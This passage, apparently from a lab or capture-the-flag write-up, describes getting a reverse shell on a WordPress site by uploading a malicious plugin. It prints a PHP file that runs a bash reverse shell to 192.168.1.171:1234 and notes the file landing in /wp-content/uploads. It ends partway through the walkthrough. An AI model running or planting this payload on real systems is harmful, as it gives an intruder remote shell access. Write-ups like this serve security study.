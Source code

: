 ### Reverse shell

I uploaded a new plugin containing the following code:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'");
```

![Add plugin](img/add-plugins.png)

Despite that I encountered an error, the malicious PHP file was successfully uploaded in `/wp-content/uploads`:

![Error Install plugin](img/Install-plugin.png)

I retrieved its location by looking at the **Media Library**:
